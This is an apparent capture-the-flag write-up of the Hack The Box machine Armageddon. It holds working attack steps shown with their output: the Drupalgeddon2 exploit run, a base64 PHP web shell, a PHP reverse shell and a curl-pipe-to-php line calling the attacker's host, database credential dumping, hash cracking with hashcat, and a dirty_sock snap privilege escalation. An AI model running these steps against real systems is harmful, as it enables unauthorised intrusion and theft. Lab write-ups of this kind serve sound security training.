






<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/profile/27897">bertolis</a></p>

# Personal thoughts
Easy and multi-way machine. We use Drupalgeddon2 (SA-CORE-2018-002) vuln to get a reverse shell. Then we abuse our sudo privileges by installing a malicious snap package payload. Hope you'll find it useful; if so, consider [suporting](https://www.buymeacoffee.com/f4T1H) a student to get `OSCP` exam and __+respecting my profile in HTB__.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href=https://www.buymeacoffee.com/f4T1H>
  
  </img>
</a>
<br><br>
Now, let me get right into it.

---

# Recon
As always, we start with nmap.
```bash
nmap -sS -sC -sV -p- -T4 -O 10.10.10.233
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

The only port open except `22/ssh` is `80/http`.<br>
- `http-generator` is `Drupal 7`<br>
- Supports PHP (look at the `http-server-header`)

Good by far. Let's have a look at what is `Drupal`

>Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License. Drupal provides a back-end framework for at least 13% of the top 10,000 websites worldwide – ranging from personal blogs to corporate, political, and government sites.

Okay, now ima go'n see the webpage.

# 80/http



A login form (bu not working for new registrants).



In its source codes, there's a file named `CHANGELOG.txt`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> curl -s http://10.10.10.233/CHANGELOG.txt | head      

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
-----------------------
- Fixed incompatibility with PHP versions 7.0.19 and 7.1.5 due to duplicate
  DATE_RFC7231 definition.
- Made Drupal core pass all automated tests on PHP 7.1.
```

The last change on the version we see is moving to `7.56`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> searchsploit drupal 7.56
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)           | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)        | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executio | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasp | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)   | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Exe | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                     | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                 | php/webapps/46459.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
# Foothold: Drupalgeddon 2

`php/webapps/44449.rb` Let's try that one.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> searchsploit -m php/webapps/44449.rb
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
File Type: Ruby script, ASCII text, with CRLF line terminators

Copied to: /root/hackthebox/armageddon/44449.rb
                                         
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> ruby 44449.rb 
ruby: warning: shebang line ending with \r may cause problems
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication

```
```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> ruby 44449.rb http://10.10.10.233/
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OPOYLTOW
[+] Result : OPOYLTOW
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>>id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
armageddon.htb>>
```

But we can't get a reverse shell from there, we face the following thing when we try.

```
[!] WARNING: Detected an known bad character (>)
```

Let's interact with the webshell directly and reverse connnect a shell.<br>
First create a file named `shell`.<br>
Put the followings inside the file.
```php
<?php $sock=fsockopen("10.10.14.XX",2121);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```
Open a web server using `php`<br>
Do the curl request as follows.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> curl -s http://10.10.10.233/shell.php -d 'c=curl 10.10.14.77/shell | php'
PHP Warning:  fsockopen(): unable to connect to 10.10.14.77:2121 (Permission denied) in - on line 1
PHP Warning:  proc_open(): Descriptor item must be either an array or a File-Handle in - on line 1
```

We got some error. Let's make it reverse connect to us from well known ports.<br>
Change the port both in your nc listener and reverse shell.



# Lateral Movement: MySQL

We CAN NOT spawn a tty shell unfortunately.
We find mysql credentials in one of the files by grepping recursively.




Interactive mysql console is not working properly (since we don't have a tty). So we execute our commands by giving the mysql executable as a parameter.

```bash
sh-4.2$ mysql -h localhost -u drupaluser -pCQHEy@9M*m23gBVj -e "select * from drupal.users"
<-u drupaluser -pCQHEy@9M*m23gBVj -e "select * from drupal.users"            
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu		filtered_html	1606998756	1607077194	1607076276	1	Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```
```bash
hashcat --example-hashes | less
```



hashcat hash -m 7900 /usr/share/wordlists/rockyou.txt

```
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

We can now ssh into brucetherealadmin.

# Privesc: sudo `snap`

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
[brucetherealadmin@armageddon ~]$
```

Okay, let's google about exploits related with sudo.
I found that one rigth here:
https://github.com/initstring/dirty_sock

But we can't just execute that script as it does not work.

I used the trojan in the dirty_sockv2.py and write a script in order to just execute and become root. You can find it [here](https://git.io/dirty_sock)

```bash
[brucetherealadmin@armageddon shm]$ chmod u+x lpe.py 
[brucetherealadmin@armageddon shm]$ ./lpe.py 
[+] Creating file...
[+] Writing base64 decoded trojan...
[+] Installing malicious snap...
dirty-sock 0.1 installed

[+] Deleting snap package...
[+] Granting setuid perms to bash as root...
[+] Here comes the PoC:
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[+] Deleting the previously created user...
[+] Becoming root...
.bash-4.2> id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) egid=0(root) groups=0(root),1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
.bash-4.2> cut -c1-21 /root/root.txt
ced45363f68f009277256
.bash-4.2> exit
exit
[+] Removing footprint...

    DONE!

[brucetherealadmin@armageddon shm]$ 
```

And we sucessfully pwned the box.


---

# Closing
If you liked the writeup, please consider [suporting](https://www.buymeacoffee.com/f4T1H) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href=https://www.buymeacoffee.com/f4T1H>
  
  </img>
</a>

# Resources
|`Original dirty_sock`|https://github.com/initstring/dirty_sock|
|:-|:-|
|__`dirty_sock Remastered`__|__https://git.io/dirty_sock__|

<br>

___-Written by f4T1H-___